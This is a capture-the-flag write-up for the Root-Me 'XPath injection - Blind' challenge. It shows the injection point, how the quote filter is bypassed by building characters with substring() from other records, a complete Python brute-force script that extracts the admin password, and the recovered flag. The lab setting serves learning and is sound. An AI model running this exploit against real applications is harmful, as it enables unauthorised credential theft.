 #XPath injection - Blind

Based on the Challenge Name, you can see that we will use Blind XPath Injection to solve this problem. You can read more about Blind XPath Injection [here](https://owasp.org/www-community/attacks/Blind_XPath_Injection)

Firstly, the injection point is at the Members section.

![anh1](https://live.staticflickr.com/65535/51834116972_b840cea7e2_z.jpg)

when you access this section and click on any member in the table, the url will look like this: *http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2*

The injection point is the `userid` parameter. You can check by enter `or` operator (|), an error will occur. We can use this to check if our conditional expression is true or not and achive our goal. If our exploit code is true, the page will not display any error. If not, we will see the error sceen. We will use this to blind Xpath Injection.

![anh2](https://live.staticflickr.com/65535/51835798225_fe1581a2c1_b.jpg)

And now we know where should we exploit. I will use it to check for John's password length because he is administrator. 

After check his password length with my exploit code (I will show it at the end of this writeup), i see that John's password length is 14. But after brute-force John's password, its length is actually 13 and I don't know why @@

![anh3](https://live.staticflickr.com/65535/51835061596_f68fa3113c_b.jpg)

And now we know that the password length is 13, we can bruteforce the password. But when you use the substring function with single quote or double quote, you will see that they are filter.

![anh4](https://live.staticflickr.com/65535/51835179303_59abc5e856_b.jpg)

Seeing that the single quote and double quotes is filter. Now I'm stuck @@ But after searching about it on Google, I see a way to bypass this filter. You can use substring function and extract many character from the table in Members section, although it's not enough character compare with the alphabet, but it's useful for this challenge.

![anh5](https://live.staticflickr.com/65535/51835179713_684d757151_z.jpg)

This is my code to exploit this challenge:

```python

import requests
import string
import os

pw_len = 0
pw = ""
url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2 and "
for i in range (1,100):
	print("i=" + str(i))
	final_url = url + "string-length(//user[userid=2]/password)=" + str(i)
	res = requests.get(url=final_url)
	if "John's profile" in res.text:
		os.system("clear")
		pw_len = i
		print("Password length is: " + str(i))
		break
	elif i==100:
		print("An error occur!")
#pw length is actually 13, not 14 and I dont know how @@
candidate = {"a": "substring(//user[userid=2]/account,1,1)",
        "b": "substring(//user[userid=1]/account,3,1)",
        "c": "substring(//user[userid=1]/account,5,1)",
        "d": "substring(//user[userid=2]/account,2,1)",
        "e": "substring(//user[userid=1]/account,9,1)",
        "g": "substring(//user[userid=2]/email,12,1)",
        "h": "substring(//user[userid=2]/email,3,1)",
        "i": "substring(//user[userid=3]/username,3,1)",
        "l": "substring(//user[userid=5]/username,2,1)",
        "m": "substring(//user[userid=2]/account,3,1)",
        "n": "substring(//user[userid=2]/username,4,1)",
        "o": "substring(//user[userid=2]/username,2,1)",
        "r": "substring(//user[userid=3]/username,2,1)",
        "s": "substring(//user[userid=1]/email,1,1)",
        "t": "substring(//user[userid=1]/email,2,1)",
        "u": "substring(//user[userid=3]/account,2,1)",
        "v": "substring(//user[userid=1]/username,4,1)",
        "y": "substring(//user[userid=4]/username,5,1)",
        "S": "substring(//user[userid=1]/username,1,1)",
        "J": "substring(//user[userid=2]/username,1,1)",
        "E": "substring(//user[userid=3]/username,1,1)",
        "@": "substring(//user[userid=3]/email,4,1)",
        ".": "substring(//user[userid=3]/email,8,1)",
	"0":"string(0)",
	"1":"string(1)",
	"2":"string(2)",
	"3":"string(3)",
	"4":"string(4)",
	"5":"string(5)",
	"6":"string(6)",
	"7":"string(7)",
	"8":"string(8)",
	"9":"string(9)"
}
for j in range(1,14):
	print("j=" + str(j))
	for key in candidate:
		print("Current key: " + key)
		final_url2 = url + "substring(//user[userid=2]/password," + str(j) + ",1)=" + candidate[key]
		res = requests.get(url = final_url2)
		if "John's profile" in res.text:
			pw += key
			os.system("clear")
			print("Current string: " + pw)
			break
os.system("clear")
print("Password of admin is: " + pw)
#password is ueiJ4a65@1.oS

```

![anh6](https://live.staticflickr.com/65535/51835417724_bc56e60ceb_z.jpg)

Thank for [this page](https://ngaa.tistory.com/18?fbclid=IwAR39JEuheQ2dfykxE61GqKVjX0HN2Uf6DP0KmApusQZE6orURoNcfJPfRoc) and this [Github author](https://github.com/NhatNam-Kyoto/Rootme-Solution/blob/master/Xpath-blind.py?fbclid=IwAR1GcvyiiGSaJJNiU5NKJR7jz4sIZGdnsGyBgqBJ10EHInNq4QlYEUEvdwI), I am able to bruteforce the password and solve this problem.
